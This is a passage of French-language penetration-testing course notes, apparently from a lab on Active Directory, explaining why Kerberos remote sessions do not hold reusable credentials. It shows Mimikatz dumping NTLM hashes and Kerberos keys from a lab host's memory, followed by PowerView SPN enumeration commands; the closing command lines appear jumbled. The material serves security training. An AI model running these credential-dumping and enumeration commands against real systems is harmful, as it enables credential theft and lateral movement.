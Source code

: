 Si nous utilisons Mimikatz pour examiner la session, nous verrons que toutes les informations d'identification sont vides.

Comme mentionné précédemment, lorsque nous utilisons Kerberos pour établir une session distante, nous n'utilisons pas de mot de passe pour l'authentification.

Lorsque l'authentification par mot de passe est utilisée, avec PSExec par exemple, ce hachage NTLM est stocké dans la session. Ainsi, lorsque nous tentons d'accéder à une autre ressource, la machine peut récupérer le hachage depuis la mémoire et nous authentifier.

Voyons un exemple rapide. Si nous nous authentifions sur la machine distante via WinRM et lançons Mimikatz, nous ne voyons pas les identifiants de l'utilisateur `backupadm` en mémoire.

{% code fullWidth="true" %}
```powershell-session
PS C:\htb> PS C:\Users\ben.INLANEFREIGHT> Enter-PSSession -ComputerName DEV01 -Credential INLANEFREIGHT\backupadm
[DEV01]: PS C:\Users\backupadm\Documents> cd 'C:\Users\Public\'
[DEV01]: PS C:\Users\Public> .\mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit

  .#####.   mimikatz 2.2.0 (x64) #18362 Feb 29 2020 11:13:36
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(commandline) # privilege::debug
Privilege '20' OK

mimikatz(commandline) # sekurlsa::logonpasswords

Authentication Id : 0 ; 45177 (00000000:0000b079)
Session           : Interactive from 1
User Name         : UMFD-1
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 6/28/2022 3:33:32 PM
SID               : S-1-5-96-0-1
        msv :
         [00000003] Primary
         * Username : DEV01$
         * Domain   : INLANEFREIGHT
         * NTLM     : ef6a3c65945643fbd1c3cf7639278b33
         * SHA1     : a2cfa43b1d8224fc44cc629d4dc167372f81543f
        tspkg :
        wdigest :
         * Username : DEV01$
         * Domain   : INLANEFREIGHT
         * Password : (null)
        kerberos :
         * Username : DEV01$
         * Domain   : INLANEFREIGHT.LOCAL
         * Password : fb ec 60 8b 93 99 ee 24 a1 dd bf fa a8 da fd 61 cc 14 5c 30 ea 6a e9 f4 bb bc ca 1f be a7 9e ce 8b 79 d8 cb 4d 65 d3 42 e7 a1 98 ad 8e 43 3e b5 77 80 40 c4 ce 61 27 90 37 dc d8 62 e1 77 7a 48 2d b2 d8 9f 4b b8 7a be e8 a4 20 3b 1e 32 67 a6 21 4a b8 e3 ac 01 00 d2 c3 68 37 fd ad e3 09 d7 f1 15 0d 52 ce fb 6d 15 8d b3 c8 c1 a3 c1 82 54 11 f9 5f 21 94 bb cb f7 cc 29 ba 3c c9 5d 5d 41 50 89 ea 79 38 f3 f2 3f 64 49 8a b0 83 b4 33 1b 59 67 9e b2 d1 d3 76 99 3c ae 5c 7c b7 1f 0d d5 fb cc f9 e2 67 33 06 fe 08 b5 16 c6 a5 c0 26 e0 30 af 37 28 5e 3b 0e 72 b8 88 7f 92 09 2e c4 2a 10 e5 0d f4 85 e7 53 5f 9c 43 13 90 61 62 97 72 bf bf 81 36 c0 6f 0f 4e 48 38 b8 c4 ca f8 ac e0 73 1c 2d 18 ee ed 8f 55 4d 73 33 a4 fa 32 94 a9
        ssp :
        credman :
```
{% endcode %}


[DEV01]: PS C:\Users\Public> tasklist /V |findstr backupadm
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> klist
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> Import-Module .\PowerView.ps1
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> get-domainuser -spn | select samaccountname
[DEV01]: PS C:\Users\backupadm\Documents> klist
[DEV01]: PS C:\Users\Public> get-domainuser -spn | select samaccountname
